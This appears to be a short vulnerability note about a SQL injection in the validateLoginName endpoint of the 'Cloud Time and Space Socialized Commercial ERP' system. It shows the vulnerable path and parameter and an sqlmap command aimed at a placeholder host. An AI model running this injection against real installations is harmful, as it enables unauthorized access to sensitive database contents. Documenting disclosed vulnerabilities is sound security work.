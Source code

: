 # Cloud Time and Space Socialized Commercial ERP System validateLoginName SQL Injection Vulnerability

## Vulnerability Description

Cloud Time and Space Socialized Commercial ERP system has SQL injection vulnerabilities, and attackers can obtain database sensitive information through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Cloud and Space-Time Socialized Commercial ERP System</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630040977210-31a0a314-667a-4cbe-9a9b-dce153582ee0-20220313155426852.png)

Verification vulnerability using SQLmap

```python
sqlmap -u "https://xxx.xxx.xxx.xxx/sys/user/validateLoginName?loginName=admin"
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1630041138096-be221d73-c3e6-44b8-b0e8-71a999cb58f7.png)